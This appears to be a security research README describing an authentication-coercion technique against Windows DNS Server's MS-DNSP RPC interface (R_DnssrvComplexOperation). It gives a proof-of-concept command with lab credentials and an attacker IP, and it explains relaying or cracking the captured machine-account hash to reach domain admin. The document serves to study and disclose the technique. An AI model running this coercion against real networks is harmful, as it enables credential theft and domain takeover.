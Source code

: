 # MS-DNSP - Remote call to R_DnssrvComplexOperation (opnum 2)

## Summary

+ **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

+ **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\DNSSERVER`

+ **Function name**: [`R_DnssrvComplexOperation`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/864a6971-f664-47b9-b012-826fd2b0a409)

+ **Function operation number**: `2`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvComplexOperation`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/864a6971-f664-47b9-b012-826fd2b0a409) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvComplexOperation('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvComplexOperation(
   [in]                                   handle_t                  hBindingHandle,
   [in, unique, string]                   LPCWSTR                   pwszServerName,
   [in, unique, string]                   LPCSTR                    pszZone,
   [in, unique, string]                   LPCSTR                    pszOperation,
   [in]                                   DWORD                     dwTypeIn,
   [in, switch_is(dwTypeIn)]              DNSSRV_RPC_UNION          pDataIn,
   [out]                                  PDWORD                    pdwTypeOut,
   [out, switch_is(*pdwTypeOut)]          DNSSRV_RPC_UNION*         ppDataOut
 );
```

## References

+ Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

+ Documentation of function `R_DnssrvComplexOperation`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/864a6971-f664-47b9-b012-826fd2b0a409